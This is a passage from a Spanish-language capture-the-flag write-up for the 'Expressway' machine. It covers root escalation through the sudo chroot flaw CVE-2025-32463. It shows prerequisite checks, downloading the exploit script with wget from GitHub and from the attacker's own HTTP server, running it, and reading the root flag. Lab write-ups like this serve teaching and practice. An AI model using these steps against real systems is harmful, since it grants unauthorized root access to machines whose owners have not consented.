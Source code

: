 El repositorio nos indica que si cumplimos los siguientes requisitos, el Exploit funcionará:
* El sistema corre la versión de **sudo 1.9.14 a 1.9.17**, que ya comprobamos que usa la **versión 1.9.17**
* El usuario actual tiene privilegios de **sudo**, que ya comprobamos que nuestro usuario no tiene alguno.
* La configuración de **sudoers** permite operaciones **chroot**. No hay una forma como tal para comprobarlo, pero puedes ejecutar el siguiente comando: `sudo -l 2>/dev/null | grep -i chroot || true`.
* El compilador **gcc** está disponible en el sistema actual. Podemos identificar si existe el comando **gcc** con el comando **which**: `which gcc`.
* Acceso de escritura a directorios temporales (por ejemplo, `/tmp`). Esto lo podemos hacer con el comando `ls -ld /tmp` y viendo qué permisos tiene el directorio `/tmp`.

<br>

Como tal, tenemos todo menos los privilegios de **sudo**, pero aun así, vamos a probar si funciona el Exploit.

Descárgalo clonando el repositorio o solamente copiando el script:
```bash
wget https://raw.githubusercontent.com/KaiHT-Ladiant/CVE-2025-32463/refs/heads/main/cve-2025-32463.sh
```

Copia el Exploit en la máquina víctima usando un servidor de **Python3** y el comando **wget**:
```bash
ike@expressway:~$ wget http://<Tu_IP>/cve-2025-32463.sh
ike@expressway:~$ ls
cve-2025-32463.sh  linpeas_fat.sh  pspy64  user.txt
```

Démosle permisos de ejecución y ejecutemos el Exploit:
```bash
ike@expressway:~$ chmod +x cve-2025-32463.sh 
ike@expressway:~$ ./cve-2025-32463.sh 
[*] Exploiting CVE-2025-32463...
[*] Attempting privilege escalation...
root@expressway:/# whoami
root
```
Listo, somos **Root**.

Obtengamos la última flag:
```bash
root@expressway:/# cd /root
root@expressway:/root# ls
root.txt
root@expressway:/root# cat root.txt
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>

